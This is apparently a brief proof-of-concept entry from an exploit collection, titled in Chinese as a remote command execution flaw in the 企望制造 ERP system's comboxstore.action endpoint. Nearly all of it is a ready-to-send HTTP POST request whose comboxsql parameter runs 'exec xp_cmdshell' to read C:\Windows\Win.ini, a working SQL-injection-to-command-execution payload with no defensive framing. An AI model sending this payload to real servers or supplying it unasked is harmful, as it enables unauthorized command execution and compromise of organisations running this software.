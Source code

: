 ## 企望制造 ERP comboxstore.action 远程命令执行漏洞
```

POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: xxx.xxx.xxx.xxx

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```
